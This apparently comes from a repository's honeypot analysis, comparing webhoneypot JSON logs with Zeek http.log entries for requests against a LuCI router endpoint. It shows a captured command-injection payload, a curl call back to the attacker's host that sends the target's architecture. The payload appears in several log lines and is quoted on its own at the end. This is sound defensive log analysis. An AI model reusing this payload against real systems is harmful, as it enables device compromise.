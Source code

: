 The 5 sets of 3 HTTP requests can be seen in webhoneypot-2023-11-09.log and Zeek http.log

Here is a sample of the 3 requests from **webhoneypot-2023-11-09.log**:
```
{"time":"2023-11-09T03:48:22.430959","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.432131","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}

{"time":"2023-11-09T03:48:22.433258","headers":{"host":"54.67.87.80"},"sip":"2.237.57.70","dip":"54.67.87.80","method":"GET","url":"/cgi-bin/luci/;stok=/locale","data":null,"useragent":"","version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":72,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}
```

### Notice how the command injection is not visible in the webhoneypot logs.  It is only visible in the Zeek http.log which shows the full URI.
Zeek http.log shows the following:
```
command: 
cat tests/logs/zeek/http.log | zeek-cut id.orig_h id.orig_p id.resp_h id.resp_p method host uri | grep "2.237.57.70"

id.orig_h id.orig_p id.resp_h id.resp_p method host uri
2.237.57.70     53382   172.31.5.68     8080    GET     54.67.87.80     /
2.237.57.70     59202   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     52980   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     64540   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
2.237.57.70     50066   172.31.5.68     8080    GET     54.67.87.80     /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);)
```

#### Here we can clearly see the command injection in the URI.  The command is the following:
```
curl http://2.237.57.70:81/who=54.67.87.80I$(uname -m);
```
